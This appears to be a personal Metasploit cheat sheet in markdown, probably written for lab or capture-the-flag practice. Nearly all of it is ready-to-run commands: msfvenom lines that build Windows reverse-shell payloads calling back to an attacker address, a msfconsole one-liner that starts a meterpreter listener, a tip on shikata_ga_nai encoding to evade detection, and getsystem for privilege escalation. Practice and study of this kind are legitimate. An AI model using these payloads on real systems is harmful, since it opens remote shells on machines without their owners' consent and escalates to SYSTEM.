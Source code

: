 # Metasploit commands

## Basics

basic msvenom reverse-shell payload:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=${PORT} -f exe -o shell
```

One-liner for setting up a listener
```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 6666; run"
```
Also, keep in mind that it's worth attempting staged payloads if the unstaged one doesn't work (and vise versa).
e.g. when `windows/x64/shell_reverse_tcp` doesn't work, it's worth it to give  `windows/x64/shell/reverse_tcp` a try.

## encoding

To see encoders available to you, use `msvenom -l encoders`.

Then, you can something like `-e x86/shikata_ga_nai` when creating the payload.

## Session handling

upgrade recent session to meterpreter session: `sessions -u -1`

## controling the output of msfvenom

A lot of the time, we are looking for a file as the payload. eg:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f python -o shell.py
```

However, if we want to assign the shell to a variable in a script, we can also do that with `-v nameOfVar`, such as:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f python -v sh
```
which will give us a variable `sh` with the payload as hex. 

## Windows Priv Esc

Using a meterpreter session of from payloads `windows/x64/shell_reverse_tcp` or `windows/shell/reverse_tcp`, you can do this script-kiddie move to privilege escalate:

```
meterpreter > use priv
```
(this might just say `[!] The "priv" extension has already been loaded.`)
```
getsystem
```
and meterpreter will do it's best to get you `NT AUTHORITY\SYSTEM`

